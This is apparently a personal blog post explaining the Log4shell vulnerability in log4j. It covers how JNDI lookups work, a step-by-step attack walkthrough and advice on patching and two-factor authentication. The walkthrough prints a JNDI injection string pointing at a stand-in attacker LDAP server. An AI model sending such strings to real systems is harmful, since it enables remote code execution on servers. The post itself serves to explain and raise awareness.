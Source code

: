 ```yaml
---
title: "Log4shell Vulnerability"
categories:
  - General
---
```


WHEW, it certainly has been one hell of a year for cyber security, and it's only getting more intense. You may have heard of the recent vulnerability dubbed CVE-2021-44228, or better known as Log4shell. It has all cyber security professionals, hackers and businesses around the world very worried (or excited depending on where you stand on the issue). So what is Log4shell? Should you personally be worried about it? In this article I'll attempt to explain what it is and why this is such a big deal. Enjoy!

### What the hell is Log4shell?

Well first to understand what Log4shell is, we need to understand what underlying mechanism is being exploited. Let's start with **log4j**.

Log4j is a java library developed by Apache that is used to help log data. This logging mechanism allows for errors, authentication failures, user input, etc. to be logged into a format where they can be reviewed later for whatever reason. If you're a web application developer, this can be very useful. Log4j is also **open source**, which means that the code is available to be publicly viewed, used and changed as needed by the requirements of the user. Java (code and framework) is one of the most commonly used technologies in the world. It runs on (but not limited to) webservers, mobile devices and even cars. There are millions of devices that rely on Java, as well as log4j, making this vulnerability widespread and diverse.

Log4shell is the vulnerability for log4j that takes advantage of its lookup functionality and improper input validation. You can think of lookups in this context for log4j as a way to interpolate input upon logging a message. Lookups can be useful in the sense that they can pull data from remote resources as well as other applications if need be. The JNDI (Java Naming and Directory Interface) is the specific lookup available in log4j that was targeted in these attacks. A hacker can craft a special string that has a JNDI lookup make a request to a server that is under the attacker's control and then execute code remotely. It may sound difficult to do, but the exploit is quite simple. Let's take a look at the attack in a bit more depth in the next section.

### Log4shell Example

![log4shell]({{ site.url }}{{ site.baseurl }}/assets/images/log4j_attack.png)

The picture above shows a full example of how this vulnerability can be exploited by an attacker. Let's break this down:

1. The attacker crafts a malicious string that utilizes a JNDI lookup. The method for injecting this string can vary, but in this case, the attacker passed it in the user agent. The string ${jndi:ldap://evil.xa/x} tells the JNDI to connect to the attacker's evil LDAP server.

2. The string is passed to log4j for logging purposes.

3. Log4j takes the string, interpolates it and then queries the attacker's LDAP server. Remember, there is no input validation that is checking to see what is being passed. This means that log4j is happy to log any input it sees and query accordingly. 

4. The attacker's LDAP server responds to the query by giving the directory information that contains the malicious code.

5. The malicious code is then executed after being downloaded.

As we can see, this attack is quite simple yet very effective. There are many variations that an attacker can use to pass the string. The code executed could potentially set up a reverse shell on the webserver, and in doing so the hacker would then have remote control over the server. From there, the possibilities are endless.

### Conclusion 

This vulnerability is bad...

This is probably one of the biggest security vulnerabilities that has been discovered in recent history. I liken this to the [Heartbleed vulnerability](https://www.csoonline.com/article/3223203/what-is-the-heartbleed-bug-how-does-it-work-and-how-was-it-fixed.html) that affected OpenSSL years ago. Although they are different vulnerabilities entirely, there were similar circumstances surrounding them both; Both technologies where the code lived in were open source, and both were exploited as a **zero day attack**. Zero days are exploits that have not been caught, detected or mitigated (via a patch for example). Attackers are able to utilize zero days as long as there is nothing stopping them from exploiting it. Usually once a zero day has been brought to the attention of the general public, developers will create patches for it. This makes timing a very important factor in using these exploits. The debate whether open source is better than proprietary still continues on...

The challenge with log4j (as mentioned above), which makes it different that other vulnerabilities, is that java runs on a myriad of devices, which means log4j ultimately does as well. This makes patch management for log4shell very difficult. If you own a company, you not only have to A) identify all of your technical assets, but then B) figure out which ones are vulnerable. Cyber security experts are predicting that the effects of this vulnerability have not fully been realized. It is quite possible that the really good hackers have been able to use this exploit to get into a network, establish persistence and then "go dark". They may be biding their time in order to figure out how to move laterally around the network and perform whatever malicious deed they want. Only time will tell.

I think that what we're going to see in the future is an influx of supply chain attacks. Remember, while large companies like Apple or Google are actively patching and remediating devices, it doesn't mean their vendors are doing the same thing. As a matter of fact, larger companies can't force their vendors to patch devices or adhere to certain standards for cyber security. This creates a potential "in" for hackers as they can compromise a vendor and then work to get into the main company's network at some point.  

For all of us and our personal cyber security, it's hard to tell right now how you can be affected. We definitely have devices or technologies that run java and log4j, but that doesn't necessarily mean those devices are "easy" to perform this exploit on. An internet facing webserver is going to be easier to exploit than a Tesla for example (hopefully). However, you should definitely take inventory of devices you own and update them with the latest patches if available. Also, please make sure that any accounts you may have with any major institutions are secured with two factor authentication and strong passwords, as there's no telling if hackers have compromised these sites and will attempt to steal credentials in the future. 

Thank you for reading!









